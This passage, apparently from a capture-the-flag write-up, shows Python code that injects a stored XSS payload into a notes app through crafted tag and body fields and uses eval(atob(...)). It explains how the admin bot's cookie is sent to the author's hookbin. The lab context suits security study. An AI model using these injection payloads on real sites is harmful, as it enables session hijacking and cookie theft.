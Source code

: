 ```python

  data = {
    "body": "foo",
    "tag": "'onload='`"
  }

  res = s.post(url+'/api/notes', json=data)

  data = {
    "body": "`;eval(atob(`{}`))/*".format(encoded),
    "tag": "*/'>"
  }

  res = s.post(url+'/api/notes', json=data)

print("Visit {}/view/{} to trigger stored XSS".format(url, username))
print("Payload generated. Visit {} for cookie".format(hookurl))
```

To trigger the XSS, view the user's posts.

Okay XSS part is done. Now we need to leverage this to get admin's cookie.

#### Admin's Cookie

I have to mention one more important point here. Admin can view all the notes of any user
regardless of public or private. If this functionality is absent, the stored XSS, we found
would have been a self XSS. This is because, we are modifing the tag itself to trigger the XSS.

The source code responsible for this is mentioned below - 

```javascript
fastify.get('/notes/:username', (req) => {
  const notes = db.getNotes(req.params.username);
  if (req.params.username === req.auth.username) return notes;
  if (req.auth.username === 'admin') return notes; // if admin return all the notes
  return notes.filter((note) => note.tag === 'public');
});
```
So we could make the admin bot to view our notes by providing the link to trigger the XSS. Thus, the XSS would 
deliver us the admin's cookie once the admin bot visits the link.

Here is the cookie i got in my hookbin -
![](/images/redpwn/cookie.png)
